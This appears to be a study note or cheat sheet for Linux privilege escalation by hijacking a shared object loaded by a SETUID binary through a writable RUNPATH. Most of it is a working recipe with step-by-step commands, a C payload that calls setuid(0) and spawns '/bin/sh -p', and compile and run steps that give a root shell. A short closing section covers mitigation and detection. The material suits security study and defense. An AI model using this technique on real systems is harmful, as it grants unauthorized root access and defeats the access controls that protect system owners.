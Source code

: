 
### Check SETUID Binary Permissions
```bash
ls -la <binary_name>
```

### List Shared Object Dependencies
```bash
ldd <binary_name>
```

### Check RUNPATH
```bash
readelf -d <binary_name> | grep PATH
```

### List Directory Permissions
```bash
ls -la <vulnerable_directory>
```

### Copy Existing Library (to Identify Missing Symbol)
```bash
cp /lib/x86_64-linux-gnu/libc.so.6 <vulnerable_directory>/<library_name>.so
```

### Run Binary (to Get Symbol Lookup Error)
```bash
./<binary_name>
```

### Create Malicious Shared Object (src.c)
```bash
cat > src.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void <missing_symbol>() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
EOF
```

### Compile Malicious Shared Object
```bash
gcc src.c -fPIC -shared -o <vulnerable_directory>/<library_name>.so
```

### Run Vulnerable Binary
```bash
./<binary_name>
```

### Verify Root Access
```bash
id
whoami
```


# **Key Concepts:**

- **Shared Objects (.so):**
    - Dynamically linked libraries.
- **`ldd`:**
    - Displays shared object dependencies.
- **`RUNPATH`:**
    - Specifies directories to search for shared objects.
    - Takes precedence over other search paths.
- **Hijacking:**
    - Replacing a legitimate shared object with a malicious one.
- **SETUID Binaries:**
    - Binaries that run with the privileges of their owner.

**Exploitation Steps (as described):**

1. **Identify Vulnerable Binary:**
    - Find a SETUID binary.
    - Use `ldd` to identify custom shared object dependencies.
2. **Check `RUNPATH`:**
    - `readelf -d <binary> | grep PATH`
    - Verify if `RUNPATH` points to a writable directory.
3. **Identify Function Name:**
    - Attempt to run the binary, and observe any symbol lookup errors.
    - Copy a legitimate .so to the vulnerable directory, and run the binary to get the missing symbol.
4. **Create Malicious Shared Object:**
    - Write C code containing the required function.
    - Include code to execute a shell as root.
5. **Compile Malicious Library:**
    - `gcc <source_file>.c -fPIC -shared -o <vulnerable_directory>/<library_name>.so`
6. **Run Vulnerable Binary:**
    - The malicious library will be loaded, and the root shell will be spawned.
7. **Verify Root Access:**
    - `id`

**Important Considerations and Enhancements:**

- **`RUNPATH` vs. `RPATH`:**
    - `RUNPATH` is preferred over `RPATH` for shared libraries.
    - `RPATH` can cause issues when distributing applications.
- **Security Implications:**
    - This is a significant security risk.
    - Writable `RUNPATH` directories should be avoided.
- **Mitigation:**
    - Avoid writable `RUNPATH` directories.
    - Use secure file permissions.
    - Regularly audit binaries and shared object dependencies.
    - Compile binaries with hardened flags.
- **Detection:**
    - Monitor for unexpected shared object modifications.
    - Use file integrity monitoring tools.
    - Audit `RUNPATH` configurations.
- **Real world examples:** Researching real world shared object hijacking exploits will help solidify understanding of the attack vectors.
- **Symbol Interposition:** This technique is a form of symbol interposition.